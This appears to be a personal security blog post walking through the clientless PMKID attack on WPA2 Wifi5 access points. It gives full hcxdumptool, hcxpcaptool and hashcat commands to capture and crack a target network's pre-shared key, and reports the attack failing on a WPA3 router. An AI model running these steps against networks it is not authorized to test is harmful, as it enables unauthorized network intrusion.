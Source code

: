 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) (with roaming feature) without client involved.  That is 4-way handshake is no longer required - clientless.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods (except Fake Access Point attack) have been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020) and [KR00K attack](https://hexway.io/research/r00kie-kr00kie/)  (CVE-2019-15126) (tested on March 21, 2020).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom's.  [KRACK](https://www.krackattacks.com/) was not tested as Support of TP-Link Deco Apps mentioned that Deco X20 is not vulnerable to this attack.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)  
- All tested clients are in AC mode with WPA2  
- TP-Link Deco X20 is set to WPA2 only  

The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan -c 36
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3 -c 36
```

When you see ```[FOUND PMKID]``` or/and ```[FOUND PMKID CLIENT-LESS]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  
Updated on March 21, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

